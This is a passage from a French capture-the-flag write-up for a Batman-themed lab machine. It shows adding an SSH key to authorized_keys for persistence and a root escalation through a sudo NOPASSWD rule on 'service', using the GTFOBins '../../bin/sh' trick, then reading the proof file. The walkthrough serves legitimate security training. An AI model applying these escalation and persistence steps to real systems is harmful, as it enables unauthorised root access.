 ```shellsession
 #################################################################### ##
 #######################################################################

          
                   ec0e2603172c73a8b644bb9456c1ff6e
```

On peut déposer notre clé publique SSH dans le `authorized_keys` pour avoir un accès moins restreint.

## Bat Escalade de privilèges

`Batman` peut exécuter la commande `service` en tant que root, sans mot de passe :

```shellsession
batman@waynemanor:~$ sudo -l
Matching Defaults entries for batman on waynemanor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User batman may run the following commands on waynemanor:
    (root) NOPASSWD: /usr/sbin/service
```

Sur GTFObins on trouve une entrée pour cette commande système :

```shellsession
batman@waynemanor:~$ sudo /usr/sbin/service ../../bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
proof.txt  snap
# cat proof.txt 

Rescue a cat? Unbelievable, I had to leave that journalist who works at 'The Gotham Times' for this animal...

Well... I'll have to get back to the party, Alfred needs me.


                 T\ T\
                 | \| \
                 |  |  :
            _____I__I  |
          .'            '.
        .'                '
        |   ..             '
        |  /__.            |
        :.' -'             |
       /__.                |
      /__, \               |
         |__\        _|    |
         :  '\     .'|     |
         |___|_,,,/  |     |    _..--.
      ,--_-   |     /'      \../ /  /\\
     ,'|_ I---|    7    ,,,_/ / ,  / _\\
   ,-- 7 \|  / ___..,,/   /  ,  ,_/   '-----.
  /   ,   \  |/  ,____,,,__,,__/            '\
 ,   ,     \__,,/                             |
 | '.       _..---.._                         !.
 ! |      .'  _ __ . '.                        |
 .:'      | (-_ _--')  :          L            !
 .'.       '.  Y    _.'             \,         :
  .          '-----'                 !          .
```